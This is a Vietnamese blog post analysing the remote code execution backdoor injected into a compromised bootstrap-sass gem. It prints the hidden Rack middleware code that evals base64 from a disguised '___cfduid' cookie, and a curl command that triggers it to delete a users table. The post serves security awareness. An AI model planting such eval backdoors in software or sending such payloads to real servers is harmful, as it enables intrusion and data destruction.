 ```yaml
---
layout: post
title:  "Remote code execution backdoor"
date:   2019-04-12 23:54:00 +0700
categories: [rails, security, backdoor, middleware]
---
```


Tình cờ đọc được một issue trên repo [bootstrap-sass]( https://github.com/twbs/bootstrap-sass/issues/1195) thì biết được cách tạo một backdoor khá hay nên quyết định tìm hiểu.

Phiên bản chứa backdoor được released do một trong số các authors của thư viện bị lộ secret token. Attacker đã released bản này lên rubygems nên khi users upgrade đã dính phải.

Đại khái attacker sẽ inject một đoạn mã vào tầng Rack middleware, cụ thể ở đây sẽ là `Rack::Sendfile` middleware.

```ruby
def call(env)  
  begin
    x = Base64.urlsafe_decode64(env['http_cookie'.upcase].scan(/___cfduid=(.+);/).flatten[0].to_s)
    eval(x) if x
  rescue Exception
  end
  @app.call(env)
end
```

Đoạn mã trên filter đoạn mã thực thi của attacker gửi lên đính kèm trong cookie. Cụ thể ở đây là key có tên là `___cfduid`(Tên này được đặt giống theo tên của một cookie tương tự của [cloudflare](https://support.cloudflare.com/hc/en-us/articles/200170156-What-does-the-CloudFlare-cfduid-cookie-do-), chỉ khác nhau là 3 dấu gạch dưới thay vì 2, làm cho người dùng nhìn vào có thể nhầm lẫn đây là cookie của cloudflare). Đoạn thực thi đã được mã hoá base64 (để tránh sự nghi ngờ bằng mắt thường). Sử dụng hàm `scan` để tách chiết giá trị. Sau đó sử dụng lệnh eval để thực thi đoạn mã chứa trong string đó.

Giả dụ Attacker mặc nhiên biết có một table có tên là `users`. Anh ta muốn xoá dữ liệu ở bảng này.

```ruby
User.delete_all
Base64.encode64("User.delete_all") # VXNlci5kZWxldGVfYWxs
```

Truyền đoạn mã trên lên server thông qua cookie

```shell
curl -v --cookie "___cfduid=VXNlci5kZWxldGVfYWxs; user_id=abc123" http://example.com/users
```

```ruby
x = Base64.urlsafe_decode64(env['http_cookie'.upcase].scan(/___cfduid=(.+);/).flatten[0].to_s)
```

x sẽ nhận được giá trị là `User.delete_all` và sau đó sẽ xoá sạch dữ liệu của bảng users trước khi response về.

Bài học có thể rút ra ở đây là khi nâng cấp thư viện, chúng ta nên kiểm tra lại xem version đó có trên github repo không và chịu khó kiểm tra những thay đổi, cập nhật là gì. Mặc dù hơi tốn công một chút nhưng an toàn vẫn hơn.
